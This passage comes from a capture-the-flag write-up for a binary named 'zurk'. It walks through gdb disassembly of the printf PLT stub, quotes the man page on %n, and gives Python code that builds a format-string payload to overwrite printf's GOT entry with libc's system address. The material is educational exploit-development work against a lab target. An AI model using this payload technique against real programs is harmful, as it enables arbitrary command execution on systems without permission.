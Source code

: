 ```
   0x0000000000400771 <+172>:	call   0x400520 <puts@plt>
   0x0000000000400776 <+177>:	nop
   0x0000000000400777 <+178>:	leave
   0x0000000000400778 <+179>:	ret
```

Look at line `+162`, see the call to `0x400530`?  Dissemble that:

```
gef➤  disas 0x400530
Dump of assembler code for function printf@plt:
   0x0000000000400530 <+0>:	jmp    QWORD PTR [rip+0x200aea]        # 0x601020
   0x0000000000400536 <+6>:	push   0x1
   0x000000000040053b <+11>:	jmp    0x400510
End of assembler dump.
```

`0x601020`.  That, is where we need to write the location of the `system` call, so that on the next go around our input to `fgets` will not be displayed by `printf` but will instead be executed by `system`.  To perform the write we'll use that `printf` companion to `%p`, `%n`.

From the `printf` man page:

> Code  such as printf(foo); often indicates a bug, since foo may contain a % character.  If foo comes from untrusted user input, it may contain %n, causing the printf() call to write to memory and creating a security hole.

Also from the `printf` man page:

>The number of characters written so far is stored into the integer pointed  to  by  the  corresponding  argument. That argument shall be an int *, or variant whose size matches the (optionally) supplied integer length modifier. No argument is converted.  (This specifier is not supported by the bionic C library.)  The behavior is  undefined if the conversion specification includes any flags, a field width, or a precision.

To use `%n`, first we have to write the number of bytes equal to the value we want to write to memory, as well as pass a memory location argument.  We've already seen with `%p` above how to do the later.

To write a bunch of bytes within the limitation of the `50` bytes constrained by `zurk`'s `fget` use `%Nx`, where `N` is the number of bytes.

Easier said with code:

```
__libc_system = libc.symbols['system']
address = base + __libc_system
words=[ address & 0xFFFF, (address >> 16) & 0xFFFF ]

assert(words[0] < words[1])

payload = ""
payload += "%" + str(words[0]).rjust(6,'0') + "x"
payload += "%0010$hn"
payload += "%" + str(words[1]-words[0]).rjust(6,'0') + "x"
payload += "%0011$hn"
payload += struct.pack("<Q",0x601020)
payload += struct.pack("<Q",0x601020 + 2)

p.sendline(payload)
```
